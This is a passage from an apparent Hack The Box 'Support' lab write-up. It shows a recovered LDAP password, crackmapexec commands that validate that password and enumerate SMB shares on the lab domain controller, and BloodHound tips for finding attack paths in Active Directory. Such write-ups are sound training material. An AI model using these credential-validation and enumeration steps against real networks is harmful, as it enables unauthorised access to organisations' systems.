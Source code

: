 ```bash
C:\Users\XXX\Desktop>python solve.py
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```


### Validate the credentials

Below is the line that connects to LDAP, the user is `support\\ldap`

```csharp
this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
```

Validate the user and password

> **Crackmapexec** will auto set the domain name for us, no need to specify

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ cme ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.227.255  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ cme smb support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.255  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
SMB         10.129.227.255  445    DC               [*] Enumerated shares
SMB         10.129.227.255  445    DC               Share           Permissions     Remark
SMB         10.129.227.255  445    DC               -----           -----------     ------
SMB         10.129.227.255  445    DC               ADMIN$                          Remote Admin
SMB         10.129.227.255  445    DC               C$                              Default share
SMB         10.129.227.255  445    DC               IPC$            READ            Remote IPC
SMB         10.129.227.255  445    DC               NETLOGON        READ            Logon server share
SMB         10.129.227.255  445    DC               support-tools   READ            support staff tools
SMB         10.129.227.255  445    DC               SYSVOL          READ            Logon server share
```


### Bloodhound


> **Bloodhound TIPs**
> 1. Mark pwned users as **Owned** first
> 2. Check some **shortest paths** to get insight
> 3. Check **none-default** groups and users
> 4. Mark **high value** for none-default user and groups that have useful perms such as `GenericALL`, `CanPSRemote`
> 5. Shortest Path -> Find shortest Path to **High Value**
> 6. Click on each suspicious users and groups
{: .prompt-tip }
